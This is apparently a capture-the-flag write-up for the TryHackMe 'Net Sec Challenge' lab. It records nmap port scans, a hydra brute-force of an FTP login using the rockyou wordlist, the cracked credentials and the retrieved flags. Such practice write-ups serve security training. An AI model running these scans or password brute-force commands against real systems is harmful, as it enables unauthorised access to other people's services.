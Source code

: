 <!-- TOC -->

- [Net Sec Challenge](#net-sec-challenge)
    - [Active Machine Information](#active-machine-information)
    - [Task 1](#task-1)
    - [Task 2](#task-2)

<!-- /TOC -->

# Net Sec Challenge

[Net Sec Challenge Room](https://tryhackme.com/room/netsecchallenge)

Practice the skills you have learned in the Network Security module.

## Active Machine Information

| Title | IP Address |
| :----: | :----: |
| NetSecMod Room 09 Challenge v1.11 | 10.10.91.0 |

## Task 1

```bash
export IP=10.10.91.0
```

## Task 2

```bash
sudo nmap -A -p- -T4 -vv -oN initial.nmap $IP
```

Result: [initial.nmap](initial.nmap)

> `8080/tcp  open  http        syn-ack ttl 61 Node.js (Express middleware)`

> `10021/tcp open  ftp         syn-ack ttl 61 vsftpd 3.0.3`

> `|_http-server-header: lighttpd THM{web_server_25352}`

> `|_    SSH-2.0-OpenSSH_8.2p1 THM{946219583339}`

```bash
hydra -l quinn -P /usr/share/wordlists/rockyou.txt -t 20 -s 10021 -v $IP ftp | tee quinn.hydra
```

Result: 

- [eddie.hydra](eddie.hydra)
- [quinn.hydra](quinn.hydra)

> `[10021][ftp] host: 10.10.91.0   login: quinn   password: andrea`

Using: `quinn:andrea`

```bash
ftp 10.10.91.0 10021
ls
get ftp_flag.txt
```

Result: [ftp_flag.txt](ftp_flag.txt)

> `THM{321452667098}`

```bash
sudo nmap -sN $IP
```

> `THM{f7443f99}`
